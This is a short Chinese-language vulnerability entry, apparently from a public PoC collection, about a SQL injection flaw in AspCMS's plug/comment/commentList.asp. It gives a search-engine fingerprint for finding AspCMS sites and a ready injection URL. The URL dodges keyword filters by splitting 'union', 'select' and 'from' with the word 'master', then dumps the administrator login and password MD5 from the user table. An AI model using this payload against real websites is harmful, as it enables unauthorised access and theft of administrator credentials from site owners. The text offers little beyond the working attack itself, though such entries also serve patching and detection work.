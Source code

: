 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## 网络测绘

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS

![img](images/202202170904613.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](images/202202170904678.png)

成功获取管理员账号以及密码的MD5